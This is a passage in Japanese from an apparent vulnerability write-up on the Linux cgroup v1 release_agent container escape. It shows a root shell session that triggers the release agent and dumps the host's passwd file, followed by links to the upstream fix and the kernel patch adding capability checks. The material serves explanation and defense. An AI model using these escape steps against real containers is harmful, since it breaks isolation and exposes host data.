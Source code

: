 ```
```

cgroup 内のプロセスを空にすることで、release_agent のプログラムを実行させる

```
root@ab988587a245:/# mkdir /mnt/xx   ← child cgroup を作成

root@ab988587a245:/# ls /mnt/xx/
cgroup.clone_children  cgroup.procs  notify_on_release  rdma.current  rdma.max  tasks

root@ab988587a245:/# echo 1 > /mnt/xx/notify_on_release

root@ab988587a245:/# sh -c "echo \$\$" > /mnt/xx/cgroup.procs   ← すぐに終了するプロセスを child cgroup に追加

root@ab988587a245:/# cat /output
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
...
```

# 修正パッチ

https://github.com/torvalds/linux/commit/24f6008564183aa120d07c03d9289519c2fe02af

https://github.com/torvalds/linux/commit/467a726b754f474936980da793b4ff2ec3e382a7

kernel/cgroup/cgroup-v1.c

```c
  static ssize_t cgroup_release_agent_write(struct kernfs_open_file *of, char *buf, size_t nbytes, loff_t off)
  {
    struct cgroup *cgrp;
+   struct cgroup_file_ctx *ctx;

    BUILD_BUG_ON(sizeof(cgrp->root->release_agent_path) < PATH_MAX);

+   /*
+    * Release agent gets called with all capabilities,
+    * require capabilities to set release agent.
+    */
+   ctx = of->priv;
+   if ((ctx->ns->user_ns != &init_user_ns) ||
+       !file_ns_capable(of->file, &init_user_ns, CAP_SYS_ADMIN))
+     return -EPERM;

    cgrp = cgroup_kn_lock_live(of->kn, false);
```
